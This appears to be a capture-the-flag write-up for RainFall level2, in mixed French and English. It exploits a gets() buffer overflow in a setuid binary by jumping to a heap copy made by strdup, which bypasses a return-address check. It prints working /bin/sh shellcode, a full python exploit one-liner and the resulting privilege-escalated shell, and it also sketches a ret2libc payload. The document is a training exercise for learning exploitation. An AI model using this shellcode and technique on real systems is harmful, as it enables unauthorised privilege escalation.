 First let's look at the type of the file

```console
level2@RainFall:~$ file level2 
level2: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x0b5bb6cdcf572505f066c42f7be2fde7c53dc8bc, not stripped
```

with buffer overflow pattern generator we see that the offset is at `80` 

explication il faut trouver le nombre de byte pour overwrite EIP car il pointe sur la return adresse de p()  
En envoyant 80 on overwrite EBP mais pas EIP
```console
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0xb7ea912f in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb) info registers
ebp            0x41414141	0x41414141
eip            0xb7ea912f	0xb7ea912f
```

EIP se trouve toujours a EBP + 4 car il pointe sur la return adresse, donc si on relance le meme proceder avec 84 A
```
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level2/level2 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) info registers
ebp            0x41414141	0x41414141
eip            0x41414141	0x41414141
```

41 etant l'hexa pour le A majuscule

---------------------------------------------------------------------------------

### How to get system("/bin/sh") in the libc

```console
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
--> \x60\xb0\xe6\xb7

(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
--> \xe0\xeb\xe5\xb7


(gdb) x/500s $esp
0xbffff915:	 "SHELL=/bin/bash"
0xbffff915 + 6 = 0xbffff91b
--> \x1b\xf9\xff\xbf
```

```
payload = A*76 + ????? x 4 + address of system() + return address for system() + address of "/bin/sh"
```

----------------------------------------------------------------------------------------



## Solution

Let's reverse the xecutable using gidra
```c
void p(void)

{
  uint unaff_retaddr;
  char local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
                    // WARNING: Subroutine does not return
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}

void main(void)

{
  p();
  return;
}
```

We see that the program is protected by a canary: ` if ((unaff_retaddr & 0xb0000000) == 0xb0000000)`  
If the return address is in the stack (`0xb`), the program will exit

But we see that a copy of our buffer is made here: `strdup(local_50);`

What to do ??

We shall look at the allocated address on the heap of strdup with gdb in `eax` register

```
Address allocated by strdup (size 4)
0x0804a008 --> \x08\xa0\x04\x08
```

We shall use the buffer `char local_50 [76];` to stock our shellcode and then fill it trash (`'A'` characters) and then put the return address of the allocated copy done by strdup on the heap (`\x08\xa0\x04\x08`)

The canary will not caught our buffer overflow because the address is not on the stack (`0xb`)

```
Here is our shellcode (size 24)
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

```bash
(python -c 'print("\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 56 + "\x08\xa0\x04\x08")'; cat) | ./level2
```

```console
level2@RainFall:~$ (python -c 'print("\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 56 + "\x08\xa0\x04\x08")'; cat) | ./level2
1��Ph//shh/bin��PS��
                    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
whoami
level3
```
